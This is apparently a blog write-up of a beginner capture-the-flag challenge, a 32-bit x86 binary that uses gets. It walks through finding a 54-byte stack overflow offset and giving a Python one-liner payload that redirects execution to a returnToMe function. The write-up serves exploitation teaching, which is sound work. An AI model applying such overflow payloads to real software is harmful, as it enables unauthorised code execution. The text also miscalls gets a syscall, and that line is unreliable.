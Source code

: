 buf0 - A Buffer Overflow Challenge
==================================
date: 06/Jan/2014
summary: This is a buffer overflow challenge I found online. Although some people might find this to be a pretty easy exploit target, I thought of posting a writeup since it will still be someone's starting point into the jouney of exploitation.
tags: ctf

The binary can be obtained from here: [buf0](/static/files/posts_buf0_challenge/buf0.bin). Let's see what `file` command has to tell us about this challenge file:

```
$ file buf0.bin
buf0.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3a0cbf6e6af7d4a5d1294f2ce18e80ad3e778d48, not stripped
```

So, this is an x86 ELF binary with symbols included. Let's run `strings` as well over this file:

```
$ strings buf0.bin
/lib/ld-linux.so.2
j,O)
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

This is interesting. The binary is using `gets` syscall which is commonly exploited against buffer overflow vulnerabilities. There is a `W00T!` string as well which indicates that we need to exploit the binary and get this string printed. Before we execute this file, let's do some static analysis on it using IDA:

![image](/static/files/posts_buf0_challenge/ida-start.png)

Apart from the standard libc defintions and `main`, I see an interesting function called `returnToMe` at location 0x08048404. Let's follow this function and see what is it doing:

![image](/static/files/posts_buf0_challenge/ida-returntome.png)

Like I mentioned earlier, this is where the `W00T!` string is printed and as per the assumption, we need to leverage the overflow in a way that this function is called. Let's now run the binary and see how it behaves:

```
$ ./buf0.bin
AAAAAAAAAAA
$
$ python -c 'print "A"*10' | ./buf0.bin
$ python -c 'print "A"*30' | ./buf0.bin
$ python -c 'print "A"*50' | ./buf0.bin
$ python -c 'print "A"*60' | ./buf0.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
$ python -c 'print "A"*53' | ./buf0.bin
$ python -c 'print "A"*54' | ./buf0.bin
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
```

So, the binary accepts input through the `gets` syscall and is as such vulnerable to a classic stack-based buffer overflow. We do some trial-and-error to figure out the size of the buffer and it turns out to be 54B after which any extra byte would corrupt the stack metadata resulting in a `Segmentation fault (core dumped)` error. So, these 54B comprise of the following stack variables:

```
50B (buf) + 4B (saved EBP)
```

The next 4B following saved EBP is the saved return address, EIP, and this is what we need to overwrite to achieve successful exploitation. For this challenge, the author wants us to overwrite EIP with the address of the `returnToMe` function but there are others ways of exploiting this as well:

1.  Injecting a 54B or less shellcode in the buffer and overwriting EIP
    with the start of the shellcode/NOP sled
2.  Injecting a bigger shellcode through an environment variable and
    overwriting EIP with it's address

But to keep things simple, let's just focus on how to complete the challenge by satisfying author's criteria. To know how to exploit such challenges using above steps please read my earlier post [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html) and it's subsequent parts.

From the IDA screenshot above it is already known that the `returnToMe` function is at location 0x08048404. Let's exploit the binary with a random payload of 54B concatenated with this new return address:

```
$ python -c 'print "A"*54 + "\x04\x84\x04\x08"' | ./buf0.bin
W00T!
```

Awesome! We get the required string printed, thus completing this challenge. Stay tuned for a post on a similar challenge.
